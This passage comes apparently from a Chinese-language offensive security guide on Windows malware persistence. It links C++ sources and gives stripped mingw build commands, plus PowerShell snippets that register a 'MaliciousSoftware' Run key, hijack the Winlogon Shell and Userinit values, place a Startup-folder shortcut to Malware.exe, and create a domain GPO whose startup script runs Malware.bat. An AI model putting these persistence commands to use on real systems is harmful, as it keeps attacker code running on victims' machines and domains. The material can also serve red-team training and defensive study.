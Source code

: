 [run.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/run.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 run.cpp -o run.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```powershell
Set-ItemProperty -Path "注册表路径" -Name "MaliciousSoftware" -Value "恶意文件目录"
Remove-ItemProperty -Path "注册表路径" -Name "名称"
```

2、Winlogon

+ HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
+ HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit

[Shell.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/Shell.cpp)

[Userinit.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/Userinit.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 CPP文件 -o 恶意文件.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

3、启动文件夹持久化

C:\Users\<Username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

[Startup.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/Startup.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 Startup.cpp -o Startup.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```powershell
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\MaliciousSoftware.lnk")
$Shortcut.TargetPath = "C:\Path\To\Malware.exe"
$Shortcut.Save()
```

4、组策略持久化

[gpedit.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/gpedit.cpp)

```powershell
# 使用PowerShell配置组策略启动脚本
$GPO = New-Object -ComObject GPMgmt.GPM
$GPDomain = $GPO.GetDomain("domain.local", "", $null, $null)
$GPO = $GPDomain.CreateGPO("MaliciousGPO")
$GPO.SetSecurityDescriptor("O:BAG:BAD:(A;;GA;;;BA)")
$GPO.SetStartupScript("C:\Path\To\Malware.bat")
```
